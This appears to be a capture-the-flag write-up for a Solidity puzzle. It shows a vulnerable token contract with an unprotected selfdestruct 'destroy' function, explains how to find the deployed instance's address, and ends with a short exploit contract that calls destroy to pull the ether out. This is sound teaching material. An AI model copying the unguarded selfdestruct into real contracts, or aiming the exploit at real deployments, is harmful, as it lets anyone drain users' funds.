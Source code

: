 ```solidity

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```
The `SimpleToken` contract is is deployed from `generateToken` function from the `Recovery` contract, we need to call the `destroy` function of the deployed instance of `SimpleToken` in order to recover the ether.
We can calculate the address of the deployed instance, [this](https://ethereum.stackexchange.com/questions/9776/generate-contract-address-using-nonce) blog describes how to calculate the address.
Alternatively we can also find the address of the instance by looking at the [EtherScan](https://rinkeby.etherscan.io/) of the transaction to get a new instance, but this method of finding is not recommended although we get the address.

> #### Solution:
> - Find the address of the deployed contract instance, then run the exploit.
> 
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface simpleToken {
>     function destroy(address payable _to) external;
> }
> 
> contract simpleExp{
>     simpleToken sT;
> 
>     constructor(address _instance) public {
>         sT = simpleToken(_instance);
>         address payable _to = payable(address(tx.origin));
>         sT.destroy(_to);
>     }
> }
> ```
